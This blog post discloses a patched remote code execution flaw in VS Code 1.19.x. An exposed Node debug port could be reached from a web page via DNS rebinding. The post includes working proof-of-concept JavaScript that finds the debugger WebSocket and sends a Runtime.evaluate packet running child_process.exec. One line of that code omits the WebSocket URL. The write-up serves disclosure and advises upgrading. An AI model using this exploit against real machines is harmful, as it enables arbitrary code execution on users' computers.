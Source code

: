 ```yaml
---
layout:	post
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	2018-03-16
show_excerpt: true
---
```


I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

<!-- more -->

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![Chrome's built-in javascript debugging tool](/img/C-3RYPLdCVdXfVA7soA53Q.png)

Click "Configure" and add localhost:9333 to the list:

![Add target](/img/E2noAEuWmwYbTW3mkyOluQ.png)

Now click inspect to inject javascript into VS Code process:

![Remote targets shown in Chrome](/img/uY1Ozt9Gw2lVHgTdDb121Q.png)

And profit!

![code execution in node.js](/img/p07rMuQGd-Hgf4u_NGH91Q.png)

To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![A case shows that a local port can be access from remote web page](/img/gV1f6shbOrzgAeQMmADQXw.png)

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018-03-30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases - Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)